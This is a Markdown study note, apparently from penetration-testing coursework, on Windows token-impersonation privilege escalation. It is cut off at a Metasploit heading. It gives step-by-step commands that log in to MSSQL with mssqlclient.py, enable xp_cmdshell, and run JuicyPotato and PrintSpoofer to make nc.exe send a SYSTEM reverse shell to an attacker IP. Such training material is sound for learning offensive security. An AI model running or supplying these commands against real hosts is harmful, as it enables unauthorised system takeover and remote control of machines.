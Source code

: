 ```

## SeImpersonate and SeAssignPrimaryToken

    

Acccess tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. To utilize the token, the SeImpersonate privilege is needed. 

Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges. Processes generally do this by making a call to the WinLogon process to get a SYSTEM token, then executing itself with that token placing it within the SYSTEM space. Attackers often abuse this privilege in the "Potato style" privescs - where a service account can SeImpersonate, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.



### JuicyPotato

        !JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.



- Connecting with MSSQLClient.py

`$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth`

- Enabling xp_cmdshell

`SQL> enable_xp_cmdshell`

    Note: We don't actually have to type RECONFIGURE as Impacket does this for us.

- Confirming Access

`SQL> xp_cmdshell whoami /priv`


download the JuicyPotato.exe binary and upload this and nc.exe to the target server. 
- -l is the COM server listening port
-  -p is the program to launch (cmd.exe)
- -a is the argument passed to cmd.exe, and 
- -t is the createprocess call(depends on privilege)

`SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *`



### PrintSpoofer and RoguePotato


#### PrintSpoofer
We can use the tool to spawn a SYSTEM process in your current console and interact with it, spawn a SYSTEM process on a desktop (if logged on locally or via RDP), or catch a reverse shell - which we will do in our example. Again, connect with mssqlclient.py and use the tool with the -c argument to execute a command. Here, using nc.exe to spawn a reverse shell 

`SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.15.91 4040 -e cmd"`


#### metasploit PrintSpoofer
```